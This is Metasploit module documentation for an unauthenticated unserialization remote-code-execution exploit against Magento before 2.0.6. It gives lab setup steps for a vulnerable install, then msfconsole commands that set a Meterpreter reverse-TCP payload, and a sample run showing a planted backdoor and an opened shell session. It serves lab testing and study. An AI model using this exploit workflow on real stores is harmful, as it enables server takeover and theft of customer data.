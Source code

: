 ## Vulnerable Application

Magento is a popular open-source e-commerce platform written in PHP. An unserialization
vulnerability exists in the product that allows an unauthenticated user to gain arbitrary
code execution.

Magento Community and Enterprise editions before 2.0.6 are affected. The magento_unserialize module
was specifically tested against version 2.0.6, on Ubuntu 14.04 and Debian.

For testing purposes, you can download the vulnerable applications [here](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz).

## Verification Steps

To set up a vulnerable version of Magento, please follow these steps. This is specific to
Ubuntu 14, and assumes you are installing Magento under /var/www/html/.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install apache2```
3. Enter: ```sudo apt-get install php5```
4. Enter: ```sudo a2enmod rewrite```
5. Add the following content to /etc/apache2/sites-enabled/000-default.conf, inside the virtual block:

```
<Directory /var/www/html>
  Options Indexes FollowSymLinks MultiViews
  AllowOverride All
  Order allow,deny
  allow from all
</Directory>
```

6. Download the [vulnerable Magento app](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz)
7. Extract the compressed file: ```tar -xf magento2-2.0.5.tar.gz```
8. Move the files and directories of magento2-2.0.5 to /var/www/html/ (make sure .htaccess is copied too)
9. In terminal, enter: ```sudo chmod 644 /var/www/html/.htaccess```
10. Enter: ```sudo service apache2 restart```
11. Enter: ```sudo apt-get install mysql-server-5.6```. And follow the installation instructions of MySQL.
12. Enter: ```sudo apt-get install php5-mysql```
13. Enter: ```sudo apt-get install php5-mcrypt```
14. Enter: ```sudo php5enmod mcrypt```
15. Enter: ```sudo apt-get install php5-xsl php5-curl php5-intl```
16. Enter: ```sudo service apache2 restart```
17. cd to /var/www/html, enter: ```sudo mkdir tmp```, and cd to tmp
18. In tmp, do: ```curl -sS https://getcomposer.org/installer | php```
19. Enter: ```sudo mv composer /usr/local/bin/composer```
20. In /var/www/html, do: ```composer install```
21. You will be asked for a username (public key) and password (private key). You can register
    for one here: https://marketplace.magento.com/
22. Back to terminal, enter: ```mysql -h localhost -u root -p[password]```
23. In mysql, enter: ```create database magento```, and exit
24. Go to http://localhost with a browser, and install Magento through the web interface.
25. After installation, back to Magento directory, and enter: ```sudo rm -rf var/cache/*```
26. Enter: ```sudo rm -rf var/generation/*```
27. Enter: ```sudo rm -rf var/page_cache/*```
28. cd to /var/www/html/bin
29. Enter: ```sudo php magento deploy:mode:set developer```. It should say that you're in developer mode.
30. Enter: ```sudo php magento setup:static-content:deploy```
31. Enter: ```sudo php magento indexer:reindex```
32. Enter: ```sudo chmod -R 777 /var/www/html```
33. Go to http://localhost, you should see Magento up and running.
34. From Magento, log in as admin, and create a product. After creating one, make sure this product
    is:
    * Either includes a shipping address, or does not have a weight.
    * Searchable from the front-end.

If at some point the IP (base URL) of Magento has changed, then you will need to do these steps to update:

1. From the terminal, do: ```mysql -h localhost -u [username] -p[password]```
2. In the SQL prompt, do: ```use [magento database name]```
3. Do: ```select * from core_config_data;```, you should see both web/unsecure/base_url (config ID 2) and web/secure/base_url (config ID 3) with the hardcoded IP.
4. Do: ```update core_config_data set value='http://[IP]/' where config_id=2;```
5. Do: ```update core_config_data set value='https://[IP]/' where config_id=3;```
6. Back to the Magento directory, do: ```sudo rm -rf var/cache/*```
7. Also do: ```sudo rm -rf var/generation/*```
8. Also do: ```sudo rm -rf var/page_cache/*```
9. Browse to Magento again with the new IP, it should be up and running again.


After setting up Magento, you can use your exploit module:

1. Start msfconsole
2. Do: ```exploit/multi/http/magento_unserialize```
3. Do: ```set RHOST [IP]```
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [IP]```
6. Do: ```exploit```
7. And you should get a session

## Scenarios

```
msf exploit(magento_unserialize) > check
[*] 192.168.1.108:80 The target appears to be vulnerable.
msf exploit(magento_unserialize) > exploit

[*] Started reverse TCP handler on 192.168.1.94:4444 
[+] 192.168.1.108:80 - generated a guest cart id
[+] 192.168.1.108:80 - backdoor done!
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 6 opened (192.168.1.94:4444 -> 192.168.1.108:46835) at 2016-06-02 17:09:34 -0500
[+] 192.168.1.108:80 - Deleted lP5UgbUBLm1sWN25gWfZBqYKms.php

meterpreter > 
```
